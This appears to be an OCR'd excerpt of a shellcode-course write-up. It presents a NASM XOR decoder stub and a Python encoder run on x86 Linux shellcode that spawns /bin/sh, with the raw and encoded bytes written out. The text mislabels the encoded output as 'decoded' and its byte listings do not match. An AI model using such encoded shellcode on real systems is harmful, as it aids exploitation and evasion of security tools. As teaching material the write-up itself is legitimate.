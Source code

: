 ```c
impair:
	mov byte bl, [edi+1]					; set bl with the first byte after 0xFF
	mov byte dl, [edi+2]					; set dl with the second byte after 0xFF
	xor bl, dl
	mov [esi], bl						; we store the decoded byte into esi

final:
	call [esp]						; we jump to the address pointed by esp, our saved esi.	

Shellcode:
	call decoder
	shell: db 0x03,0xfb,0xcc,0x04,0x1a,0xe5,0x03,0x45,0xce,0x05,0x2e,0xb5,0x02,0x6b,0xcf,0x01,0x78,0xf8,0x08,0xb8,0x59,0x0a,0x51,0x39,0x0a,0x66,0x7d,0x03,0x03,0x6b,0x03,0x50,0x65,0x06,0x0d,0x74,0x06,0x70,0xe9,0x0a,0xe2,0x93,0x08,0xb9,0x5b,0x03,0x6b,0xe4,0x02,0xbd,0x0d,0x09,0x56,0x89

```


## Exemples ##

### Encodage ###

```c
usage: Encoder Python SLAE [-h] -s SHELLCODE [-a ACTION]

Encoder shellcode

optional arguments:
  -h, --help    show this help message and exit
  -s SHELLCODE  shellcode
  -a ACTION     encode or decode
```

We run the program:

```c
encode_decode.py -s 
"\x31\xc9\xf7\xe1\x89\xcb\x99\xb0\xa4\xcd\x80\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x51\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80"
-a encode
```

And we get the decoded version of the shellcode:

```c
"\x03\xfb\xcc\x07\x1d\xe8\x05\x47\xd0\x04\x2d\xb4\x02\x6b\xcf\x05\x7c\xfc\x06\xb6\x57\x06\x4d\x35\x04\x60\x77\x08\x08\x70\x03\x50\x65\x07\x0e\x75\x03\x6d\xe6\x03\xdb\x8c\x04\xb5\x57\x08\x70\xe9\x07\xc2\x12\x08\x55\x88";
```

### python decoding ###

```c
python
encode_decode.py -s
"\x03\xfb\xcc\x07\x1d\xe8\x05\x47\xd0\x04\x2d\xb4\x02\x6b\xcf\x05\x7c\xfc\x06\xb6\x57\x06\x4d\x35\x04\x60\x77\x08\x08\x70\x03\x50\x65\x07\x0e\x75\x03\x6d\xe6\x03\xdb\x8c\x04\xb5\x57\x08\x70\xe9\x07\xc2\x12\x08\x55\x88"
-a decode
````
